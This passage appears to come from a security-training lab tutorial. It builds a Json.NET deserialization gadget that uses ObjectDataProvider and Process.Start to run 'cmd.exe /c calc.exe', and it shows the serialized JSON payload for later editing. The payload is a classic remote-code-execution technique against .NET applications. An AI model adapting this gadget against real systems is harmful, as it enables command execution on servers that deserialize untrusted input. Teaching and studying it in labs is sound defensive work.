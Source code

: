 If you are following along on the provided Tools VM, then we will need to add a reference to the DLL file manually. First, extract the ZIP file `C:\Tools\Newton_Soft_Json.zip` to a destination of your choosing. Next, inside Visual Studio, navigate to `Project > Add Reference...`, select `Browse` and find `Bin\net45\Newtonsoft.Json.dll` from wherever you extracted the ZIP file to.

![image](JXm5gQ167W7M.png)

Hit `Add` and then `Ok`, and the reference errors should be cleared up. Now, we can build the program and run it. A calculator will spawn; however, there will be no serialized object for us to copy. Instead, an error message will be displayed since the serializer cannot determine certain information due to the new process.

![image](9euPHA0KMdqM.png)

Based on the error message above, the object was not serializable due to the system not being able to determine the `ExitCode`. We don't need the calculator to spawn now, we just want to see the serialized output, so let's change the value of `MethodName` from `Start` to `Start1`. The method `Start1` does not actually exist, and it should not result in any calculator being spawned. Therefore, ideally, we should obtain serialized JSON output that we can manually modify. This time when we run the program, we get this output:

```json
{
  "$type": "System.Windows.Data.ObjectDataProvider, PresentationFramework",
  "ObjectType": "<SNIP>",
  "MethodName": "Start1",
  "MethodParameters": {
    "$type": "<SNIP>",
    "$values": [
      "C:\\Windows\\System32\\cmd.exe",
      "/c calc.exe"
    ]
  },
  "IsAsynchronous": false,
  "IsInitialLoadEnabled": true,
  "Data": null,
  "Error": {
    "$type": "System.MissingMethodException, mscorlib",
    "ClassName": "System.MissingMethodException",
    "Message": "Attempted to access a missing member.",
    "Data": null,
    "InnerException": null,
    "HelpURL": null,
    "StackTraceString": "   at System.RuntimeType.InvokeMember(String name, BindingFlags bindingFlags, Binder binder, Object target, Object[] providedArgs, ParameterModifier[] modifiers, CultureInfo culture, String[] namedParams)\r\n   at System.Windows.Data.ObjectDataProvider.InvokeMethodOnInstance(Exception& e)",
    "RemoteStackTraceString": null,
    "RemoteStackIndex": 0,
    "ExceptionMethod": "8\nInvokeMember\nmscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089\nSystem.RuntimeType\nSystem.Object InvokeMember(System.String, System.Reflection.BindingFlags, System.Reflection.Binder, System.Object, System.Object[], System.Reflection.ParameterModifier[], System.Globalization.CultureInfo, System.String[])",
    "HResult": -2146233070,
    "Source": "mscorlib",
    "WatsonBuckets": null,
    "MMClassName": "System.Diagnostics.Process",
    "MMMemberName": "Start1",
    "MMSignature": null
  }
}

```
